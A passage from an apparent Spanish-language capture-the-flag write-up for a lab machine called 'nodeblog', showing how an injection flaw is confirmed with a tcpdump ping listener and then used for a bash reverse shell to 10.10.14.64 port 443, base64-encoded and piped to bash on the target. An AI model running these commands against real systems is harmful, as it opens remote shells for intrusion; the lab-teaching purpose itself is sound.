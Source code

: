 cambiamos "Value" por el URL codificado

nos ponemos en escucha de paquetes con tcpdump 

```bash
tcpdump -i tun0 icmp -n
```

refrescamos la pagina web y tenemos conexión, hemos recibido el ping

![[20250723130511.png]](nodeblog-images/20250723130511.png)

## Reverse shell

Ahora utilizaremos la vulnerabilidad que ya conocemos para inyectar una reverse shell y tener acceso al sistema.

lo primero que tenemos que hacer es convertir la petición de shell en base 64 

```bash
echo 'bash -i >& /dev/tcp/10.10.14.64/443 0>&1' | base64
```

obtendremos un resultado como este 

```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42NC80NDMgMD4mMQo=
```

Una vez tenemos esto vamos a crear el código que queremos que ejecute la maquina victima

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42NC80NDMgMD4mMQo= |base64 -d |bash
```

vamos a explicar este código en detalle:

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42NC80NDMgMD4mMQo=
```

lo que hace es literalmente mostrar por pantalla esto `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42NC80NDMgMD4mMQo=`

```bash
base64 -d 
```

lo que hace es decodificar el base64 para que se vea la data en texto plano veríamos esto `'bash -i >& /dev/tcp/10.10.14.64/443 0>&1' `

```bash
bash
```
